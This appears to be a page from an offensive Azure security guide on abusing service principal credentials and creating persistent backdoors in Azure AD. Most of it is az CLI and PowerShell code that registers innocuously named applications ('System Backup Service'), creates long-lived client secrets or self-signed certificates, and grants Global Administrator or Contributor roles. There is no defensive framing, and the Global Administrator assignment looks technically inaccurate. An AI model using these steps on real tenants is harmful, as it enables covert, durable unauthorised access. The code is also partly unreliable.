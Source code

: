 ### Service Principal Credential Abuse
```bash
# Use service principal credentials
az login --service-principal -u app-id -p password --tenant tenant-id

# Check service principal permissions
az role assignment list --assignee app-id

# Access resources with service principal
az resource list
az storage account list
```

## Creating Persistent Backdoors in Azure AD Using Service Principals

### Service Principal Backdoor Techniques
- **Application Registration**: Register new applications with backdoor access
- **Certificate-Based Authentication**: Use certificates for persistent access
- **Client Secret Generation**: Create long-lived client secrets
- **Permission Manipulation**: Grant excessive permissions to service principals

### Creating Backdoor Application
```powershell
# Register new application
$app = New-AzADApplication -DisplayName "System Backup Service"

# Create service principal
$sp = New-AzADServicePrincipal -ApplicationId $app.ApplicationId

# Generate client secret
$secret = New-AzADAppCredential -ApplicationId $app.ApplicationId -EndDate (Get-Date).AddYears(2)

# Assign Global Administrator role
New-AzRoleAssignment -ObjectId $sp.Id -RoleDefinitionName "Global Administrator"
```

### Certificate-Based Backdoor
```powershell
# Generate self-signed certificate
$cert = New-SelfSignedCertificate -Subject "CN=BackdoorCert" -CertStoreLocation "Cert:\CurrentUser\My" -NotAfter (Get-Date).AddYears(2)

# Create application with certificate
$app = New-AzADApplication -DisplayName "Certificate Service"
New-AzADAppCredential -ApplicationId $app.ApplicationId -CertValue ([Convert]::ToBase64String($cert.RawData))

# Create service principal and assign permissions
$sp = New-AzADServicePrincipal -ApplicationId $app.ApplicationId
New-AzRoleAssignment -ObjectId $sp.Id -RoleDefinitionName "Contributor"
```
